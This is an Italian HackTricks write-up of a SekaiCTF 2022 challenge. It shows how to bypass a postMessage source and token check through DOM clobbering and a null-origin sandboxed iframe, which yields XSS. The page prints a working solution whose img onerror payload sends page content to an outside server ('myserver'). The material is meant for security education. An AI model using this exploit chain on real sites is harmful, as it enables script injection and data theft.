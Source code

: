 # Bypassing SOP with Iframes - 2

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Iframes in SOP-2

Nella [**soluzione**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) per questa [**sfida**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) propone un metodo simile alla sezione precedente. Controlliamolo.

In questa sfida, l'attaccante deve **bypassare** questo:
```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```
Se lo fa, può inviare un **postmessage** con contenuto HTML che verrà scritto nella pagina con **`innerHTML`** senza sanificazione (**XSS**).

Il modo per bypassare il **primo controllo** è rendere **`window.calc.contentWindow`** **`undefined`** e **`e.source`** **`null`**:

* **`window.calc.contentWindow`** è in realtà **`document.getElementById("calc")`**. Puoi sovrascrivere **`document.getElementById`** con **`<img name=getElementById />`** (nota che l'API Sanitizer -[qui](https://wicg.github.io/sanitizer-api/#dom-clobbering)- non è configurata per proteggere contro attacchi di DOM clobbering nel suo stato predefinito).
* Pertanto, puoi sovrascrivere **`document.getElementById("calc")`** con **`<img name=getElementById /><div id=calc></div>`**. Poi, **`window.calc`** sarà **`undefined`**.
* Ora, abbiamo bisogno che **`e.source`** sia **`undefined`** o **`null`** (perché `==` è usato invece di `===`, **`null == undefined`** è **`True`**). Ottenere questo è "facile". Se crei un **iframe** e **invi** un **postMessage** da esso e immediatamente **rimuovi** l'iframe, **`e.origin`** sarà **`null`**. Controlla il seguente codice
```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```
Per bypassare il **secondo controllo** riguardo al token, si invia **`token`** con valore `null` e si rende il valore di **`window.token`** **`undefined`**:

* Inviare `token` nel postMessage con valore `null` è banale.
* **`window.token`** nella chiamata alla funzione **`getCookie`** che utilizza **`document.cookie`**. Si noti che qualsiasi accesso a **`document.cookie`** in pagine di origine **`null`** genera un **errore**. Questo farà sì che **`window.token`** abbia valore **`undefined`**.

La soluzione finale di [**@terjanq**](https://twitter.com/terjanq) è il [**seguente**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):
```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');

function start(){
var ifr = document.createElement('iframe');
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = 'allow-scripts allow-popups';
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr);

function hack(){
var win = open('https://obligatory-calc.ctf.sekai.team');
setTimeout(()=>{
parent.postMessage('remove', '*');
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
},1000);
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
}
setTimeout(start, 1000);
</script>
</body>
</html>
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
